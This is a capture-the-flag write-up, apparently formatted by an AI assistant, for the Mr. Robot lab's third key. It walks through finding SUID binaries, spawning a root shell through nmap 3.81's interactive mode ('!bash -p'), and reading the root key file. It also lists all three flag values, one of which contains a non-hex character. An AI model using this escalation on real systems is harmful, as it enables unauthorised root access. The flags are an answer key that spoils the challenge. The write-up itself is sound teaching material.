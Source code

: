 
```markdown
# Mr. Robot CTF Write-Up: Key 3 – Privilege Escalation via Vulnerable Nmap

After exploring Robot's directory and not finding any clues for the third key, I moved on to privilege escalation in order to get root access.

Following a well-known Linux privilege escalation checklist ([g0tmi1k's guide](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)), I decided to check for SUID binaries—files that run with the permissions of their owner (often root) rather than the user executing them.

## 1. Finding SUID Binaries

```bash
find / -user root -perm -4000 2>/dev/null
```

### Explanation:
- `find /`: Searches from the root directory.
- `-user root`: Limits results to files owned by the root user.
- `-perm -4000`: Looks for files with the SUID bit set.
- `2>/dev/null`: Hides permission-denied errors.

### Output (relevant section):
```
/usr/local/bin/nmap
```

Among the standard SUID binaries, `/usr/local/bin/nmap` stood out — an older version of Nmap (3.81) known to be vulnerable when set with the SUID bit.

---

## 2. Investigating the Nmap Binary

```bash
/usr/local/bin/nmap --version
```

### Output:
```
nmap version 3.81 ( http://www.insecure.org/nmap/ )
```

This confirmed that the system was running an old version of Nmap, which allows privilege escalation via its interactive mode.

---

## 3. Exploiting Nmap for Root Access

```bash
nmap --interactive
```

### Output:
```
Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> 
```

While in interactive mode, I used the `!` operator to execute shell commands:

```bash
nmap> !whoami
```

### Output:
```
root
waiting to reap child : No child processes
```

Boom! The command runs as root.

---

## 4. Spawning a Root Shell

To get a full root shell:

```bash
nmap> !bash -p
```

### Output:
```
bash-4.3#
```

`-p` ensures the shell retains root privileges and avoids resetting certain environment variables.

---

## 5. Retrieving the Final Key

Navigated to the root home directory and listed the files:

```bash
cd /root
ls -al
```

### Output:
```
-r--------  1 root root   33 Nov 13  2015 key-3-of-3.txt
```

Read the contents of the final key file:

```bash
cat key-3-of-3.txt
```

### Output:
```
04787ddef27c3dee1ee161b21670b4e4
```

---

## ✅ CTF Complete – All Keys Found!

```
1. 073403c8a58alf80d943455fb30724b9  
2. 822c73956184f694993bede3eb39f959  
3. 04787ddef27c3dee1ee161b21670b4e4
```

---

## Notes

- This privilege escalation only worked because `nmap` was an outdated and misconfigured SUID binary.
- Always check for known vulnerable binaries when doing post-exploitation privilege escalation.
```

---

Let me know if you'd like a front matter block for Jekyll or a table of contents added too!

